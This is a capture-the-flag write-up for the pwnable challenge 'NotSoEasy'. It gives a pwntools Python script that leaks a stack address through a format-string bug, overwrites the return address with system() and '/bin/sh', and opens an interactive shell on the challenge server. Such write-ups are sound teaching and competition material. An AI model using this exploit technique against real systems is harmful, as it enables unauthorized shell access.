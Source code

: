 # **NotSoEasy**

#### tag : pwnable

-----------------------------------------------

#### Description

>Prepare for trouble,
>And make it double.
>¯\_(ツ)_/¯
>
>nc 13.233.66.116 6969

-----------------------------------------------

#### Solution

```python
from pwn import *

context.log_level = 'debug'
r = remote('13.233.66.116', 6969)

rr = lambda x: r.recvuntil(str(x))
ss = lambda x: r.sendline(str(x))

stack_offset = 184

# leak stack address
rr('!\n')
ss('%3$x')
rr(':\n\n')
leak = int(rr('\n'),16)

# overwrite ret to system(0x08050bd0) and ret+8 to "/bin/sh"(0x080AE88C)
p = fmtstr_payload(1, {leak-stack_offset: 0x08050bd0, leak-stack_offset+8: 0x080AE88C},  0, 'short')

# trigger fsb and exploit
rr('!\n')
ss(p)
r.interactive()
```
